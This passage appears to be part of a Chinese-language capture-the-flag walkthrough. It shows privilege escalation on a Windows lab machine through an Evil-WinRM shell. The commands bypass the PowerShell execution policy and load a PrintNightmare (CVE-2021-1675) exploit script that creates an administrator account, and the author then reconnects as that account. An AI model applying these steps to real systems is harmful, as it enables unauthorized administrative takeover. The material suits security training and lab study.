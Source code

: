 如果我们尝试导入 PowerShell 模块，我们会得到一个错误，因为执行策略设置为 restricted:

```
*Evil-WinRM* PS C:\Users\tony\Documents> Import-Module ./CVE-2021-1675.ps1
File C:\Users\tony\Documents\CVE-2021-1675.ps1 cannot be loaded because running scripts is disabled on this system. 
At line:1 char:1
+ Import-Module ./CVE-2021-1675.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
```

对于当前用户，我们可以通过将它设置为无限制来轻松解决这个问题:

```
*Evil-WinRM* PS C:\Users\tony\Documents> Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```

现在我们可以导入它并运行以创建我们的管理员用户:

![](img/a55d7265d9bf4db3df0f832968dedc17.png)

导入并运行漏洞利用

# 权限提升

最后，我们可以使用新帐户连接新的 Evil-WinRM 会话:

![](img/fdaadb98d5e5551e93d40867ee67e7bd.png)

Evil-WinRM 连接到新帐户

# 根标志
